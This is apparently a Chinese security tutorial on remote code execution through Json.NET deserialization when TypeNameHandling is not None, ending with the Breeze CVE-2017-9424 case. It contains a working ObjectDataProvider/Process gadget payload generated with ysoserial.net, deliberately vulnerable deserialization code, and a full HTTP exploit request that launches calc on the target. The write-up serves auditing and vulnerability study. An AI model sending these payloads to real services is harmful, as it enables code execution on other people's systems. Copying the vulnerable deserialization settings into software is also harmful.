









# Json.Net

json.net又名Newtonsoft.Json，虽然不是官方库，但是凭借出色的性能优势有着很多的受众用户。下图是官方的性能对比图：


# demo

[官方文档](https://www.newtonsoft.com/json/help/html/SerializingJSON.htm)给出了最简单的两个json示例，分别是JsonConvert、JsonSerializer。这里先看下JsonConvert

```csharp
using Newtonsoft.Json;
using System;

namespace Json.NetSerializer
{
    class Person
    {
        public string Name { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Person person = new Person();
            person.Name = "jack";
            string v = JsonConvert.SerializeObject(person);
            string v1 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.None
            });
            string v2 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.All
            });
            Console.WriteLine(v);
            Console.WriteLine(v1);
            Console.WriteLine(v2);
            Console.ReadKey();
        }
    }
}
```

输出json

```json
{"Name":"jack"}
{"Name":"jack"}
{"$type":"Json.NetSerializer.Person, Json.NetSerializer","Name":"jack"}
```

可见传入JsonSerializerSettings参数`TypeNameHandling.All`时生成了带有type信息的json。看下底层实现


当不穿JsonSerializerSettings参数时，调用三个参数的SerializeObject重载



三个参数的重载将settings设置为空，创建了一个默认的JsonSerializer。



抽丝剥茧，CreateDefault其实就是new了一个JsonSerializer，其中`this._typeNameHandling = TypeNameHandling.None`



说明下面几行代码的作用是一样的

```csharp
            string v = JsonConvert.SerializeObject(person);
            string v1 = JsonConvert.SerializeObject(person, new JsonSerializerSettings()
            {
                TypeNameHandling = TypeNameHandling.None
            });
```

根据[文档](https://www.newtonsoft.com/json/help/html/T_Newtonsoft_Json_TypeNameHandling.htm)，TypeNameHandling有以下几个枚举值



除了None外，都会包含type信息。文档中标记了TypeNameHandling会产生安全问题，应该使用binder进行类型绑定。

> [TypeNameHandling](https://www.newtonsoft.com/json/help/html/P_Newtonsoft_Json_JsonSerializer_TypeNameHandling.htm) should be used with caution when your application deserializes JSON from an external source. Incoming types should be validated with a custom [SerializationBinder](https://www.newtonsoft.com/json/help/html/P_Newtonsoft_Json_JsonSerializer_SerializationBinder.htm) when deserializing with a value other than None.

而本文就是针对TypeNameHandling进行讲解，当TypeNameHandling非None时，可以传入自定义json触发RCE。

# 攻击链ObjectDataProvider

通过ObjectDataProvider包装Process进行RCE。yso生成如下

```json
PS E:\code\ysoserial.net\ysoserial\bin\Debug> .\ysoserial.exe -g ObjectDataProvider -f json.net -c calc
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

运行后弹出计算器。



# 审计

关注JsonConvert和JsonSerializer的TypeNameHandling值是否为None。以下代码两种方法都能触发RCE。

```csharp
using Newtonsoft.Json;
using System;
using System.IO;

namespace Json.NetSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            // JsonConvert
            JsonConvert.DeserializeObject(File.ReadAllText("1.json"),new JsonSerializerSettings() { TypeNameHandling =TypeNameHandling.All});
            // JsonSerializer
            JsonSerializer jsonSerializer = JsonSerializer.CreateDefault();
            jsonSerializer.TypeNameHandling = TypeNameHandling.All;
            using (StreamReader sr = new StreamReader("1.json"))
            using (JsonReader reader = new JsonTextReader(sr))
            {
                jsonSerializer.Deserialize(reader);
            }
            Console.ReadKey();
        }
    }
}
```

# 实际案例 breeze CVE-2017-9424

breeze在blackhat中提到了存在json反序列化漏洞。源码下载https://github.com/Breeze/breeze.js.samples/tree/master/net/CarBones

在Breeze.ContextProvider.BreezeConfig.CreateJsonSerializerSettings设置了TypeNameHandling.Objects



查看被调用链



在CarBonesController类中被使用。SaveChanges()传入的JObject一路被传入InitializeSaveState()



然后将JObject的saveOptions字段进行反序列化为SaveOptions类型。而SaveOptions有一个Tag字段类型为Object，刚好可以存储我们的Process对象。



由此抓包，原始SaveChanges请求如下

```http
POST /breeze/CarBones/SaveChanges HTTP/1.1
Host: php.local:34218
Content-Length: 288
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Origin: http://php.local:34218
Referer: http://php.local:34218/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
    "entities": [
        {
            "Id": 3,
            "Make": "Tesla",
            "Model": "S1",
            "entityAspect": {
                "entityTypeName": "Car:#CarBones.Models",
                "defaultResourceName": "Cars",
                "entityState": "Modified",
                "originalValuesMap": {
                    "Model": "S"
                },
                "autoGeneratedKey": {
                    "propertyName": "Id",
                    "autoGeneratedKeyType": "Identity"
                }
            }
        }
    ],
    "saveOptions": {}
}
```

将saveOptions修改为payload，弹出计算器

```http
POST /breeze/CarBones/SaveChanges HTTP/1.1
Host: php.local:34218
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json; charset=utf-8
Content-Length: 627

{
    "entities": [
        {
            "Id": 1,
            "Make": "Ford",
            "Model": "Mustanga",
            "entityAspect": {
                "entityTypeName": "Car:#CarBones.Models",
                "defaultResourceName": "Cars",
                "entityState": "Modified",
                "originalValuesMap": {
                    "Model": "Mustang"
                },
                "autoGeneratedKey": {
                    "propertyName": "Id",
                    "autoGeneratedKeyType": "Identity"
                }
            }
        }
    ],
    "saveOptions": {
        "Tag": {
            "$type": "System.Windows.Data.ObjectDataProvider, PresentationFramework",
            "ObjectInstance": {
                "$type": "System.Diagnostics.Process, System"
            },
            "MethodParameters": {
                "$type": "System.Collections.ArrayList, mscorlib",
                "$values": [
                    "calc"
                ]
            },
            "MethodName": "Start"
        }
    }
}
```

# 后文

本文讲解了json.net反序列化，并结合实际案例 breeze CVE-2017-9424深入理解。